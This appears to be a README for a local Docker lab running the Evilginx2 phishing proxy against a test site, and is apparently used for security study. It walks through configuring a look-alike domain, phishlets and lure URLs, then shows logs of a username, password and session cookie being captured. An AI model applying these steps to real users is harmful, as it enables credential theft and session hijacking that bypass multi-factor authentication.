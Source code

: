 # Evilginx LAB on Docker
![back](evil-dock.jpg)
## build & run the containers
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	
Verify if they run:

	docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## modify hosts in file in the host machine to mimic DNS
Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local



## Start evilnginx
```bash 
sudo docker exec -it /targetsile.local /bin/bash 
root@bd1cc49349a5:/evilginx2# ./evilginx2 -developer

                                         
___________      __ __           __               
\_   _____/__  _|__|  |    ____ |__| ____ ___  ___
|    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
|        \\   /|  |  |__/ /_/  >  |   |  \>    < 
/_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
     \/              /_____/         \/      \/

        - --  Community Edition  -- -

by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[16:02:29] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[16:02:29] [inf] loading phishlets from: /evilginx2/phishlets
[16:02:29] [inf] loading configuration from: /root/.evilginx
[16:02:29] [inf] blacklist mode set to: unauth
[16:02:29] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[16:02:29] [inf] https port set to: 443
[16:02:29] [inf] dns port set to: 53
[16:02:29] [inf] autocert is now enabled
[16:02:29] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[16:02:30] [war] server domain not set! type: config domain <domain>
[16:02:30] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  
| example           | disabled  | visible     |           |             |                                                                                                                                                                  
| targetsite-local  | disabled  | visible     |           |             |                                                                                                                                                                  
+-------------------+-----------+-------------+-----------+-------------+                                                                                                                                                                  

:  


```
                                        
## Config Evilngnix container

	: config domain targetsile.local
	: config ipv4 172.18.0.10
	: phishlets hostname targetsite-local targetsile.local
	: phishlets get-hosts targetsite-local 
		172.18.0.10 login.targetsile.local
		172.18.0.10 targetsile.local
		
	: phishlets enable  targetsite-local 
	: lures create targetsite-local 
	: lures
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
		| 0   | targetsite-local  |           | /AhsTYOfa  |             |               |         | ----  |
		+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
 
	: lures get-url 0
		https://login.targetsile.local/AhsTYOfa

## Capturing the session token
```bash 
: 2024/12/04 21:32:08 [001] WARN: Cannot handshake client login.targetsite.local remote error: tls: unknown certificate authority
[21:32:33] [imp] [0] [targetsite-local] new visitor has arrived: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0 (172.18.0.1)
[21:32:33] [inf] [0] [targetsite-local] landing URL: https://login.targetsile.local/AhsTYOfa
[21:33:14] [+++] [0] Username: [admin]
[21:33:14] [+++] [0] Password: [test01]
[21:33:53] [+++] [0] Username: [admin]
[21:33:53] [+++] [0] Password: [Pwd Sicur@ 123]
[21:33:54] [+++] [0] detected authorization URL - tokens intercepted: /admin.php
: sessions 

+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| id  |     phishlet      | username  |    password     |  tokens   | remote ip   |       time        |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+
| 1   | targetsite-local  | admin     | Pwd Sicur@ 123  | captured  | 172.18.0.1  | 2024-12-04 21:33  |
+-----+-------------------+-----------+-----------------+-----------+-------------+-------------------+

: sessions 1

 id           : 1
 phishlet     : targetsite-local
 username     : admin
 password     : Pwd Sicur@ 123
 tokens       : captured
 landing url  : https://login.targetsile.local/AhsTYOfa
 user-agent   : Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 remote ip    : 172.18.0.1
 create time  : 2024-12-04 21:32
 update time  : 2024-12-04 21:33

[ cookies ]
[{"path":"/","domain":"login.targetsite.local","expirationDate":1764884081,"value":"jkncga8d8e6fk3igla22ugsfse--very-insecure-fixed-VALUE--DO-NOT-USE-IT-NEVER-IN-REAL-APPLICATION","name":"session_token","httpOnly":true,"hostOnly":true}]




```
## useful Docker commands

### stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### access a container

	sudo docker exec -it <container name> /bin/bash

### check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## see logs

	sudo docker logs <container name>
	
### show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

